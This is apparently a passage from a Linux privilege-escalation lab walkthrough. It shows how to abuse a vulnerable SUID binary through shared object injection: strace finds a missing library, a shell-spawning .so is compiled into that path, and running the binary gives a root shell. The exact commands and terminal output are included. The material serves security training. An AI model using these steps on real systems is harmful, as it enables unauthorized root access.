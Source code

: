 1. Read and follow along with the above.

`No answer needed`

## SUID / SGID Executables - Shared Object Injection

The **/usr/local/bin/suid-so** SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:

`/usr/local/bin/suid-so`

Run **strace** on the file and search the output for open/access calls and for "no such file" errors:

`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

Note that the executable tries to load the **/home/user/.config/libcalc.so** shared object within our home directory, but it cannot be found.

Create the **.config** directory for the libcalc.so file:

`mkdir /home/user/.config`

Example shared object code can be found at /home/user/tools/suid/libcalc.c. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

Execute the **suid-so** executable again, and note that this time, instead of a progress bar, we get a root shell.

`/usr/local/bin/suid-so`

**Remember to exit out of the root shell before continuing!**

```
user@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
[=====================================================================>] 99 %
Done.
user@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
user@debian:~$ 
```
